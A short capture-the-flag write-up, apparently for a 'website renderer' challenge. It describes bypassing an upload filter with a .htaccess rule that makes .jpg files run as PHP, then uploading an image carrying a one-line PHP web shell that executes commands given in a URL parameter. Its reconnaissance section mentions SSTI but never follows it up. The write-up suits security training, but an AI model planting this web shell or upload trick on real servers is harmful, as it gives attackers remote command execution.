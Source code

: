 If you prefer the text version : [Write_up_latex](./WU_website_renderer.pdf)

# Reconnaissance

We clearly recognize that there's a potential SSTI (Server-Side template injection) in this challenge. The idea for beginning the exploiting part is to run a basic payload to see what it gives:

 # Exploitation

![i2](6.jpg)

After uploading an image, we see it in uploads/

![i2](14.jpg)


First we'll upload an .htaccess that will allow us to upload jpg files but interpreted as php. The trick here is to inject some php code in the jpg file, we can use burpsuite for it.
The .htaccess file contains `AddType application/x-httpd-php .jpg`.

We can then upload an image with the following code giving us a web shell:
`<?php if(isset($_GET["cmd"])) system($_GET["cmd"]); ?>`

![i2](17.jpg)

Let's gooo our getshell works we can use the command we want, starting with a classic ls and some others commands until we reach the flag by exploring.

![i2](18.jpg)
![i2](19.jpg)
![i2](20.jpg)

Flagged !

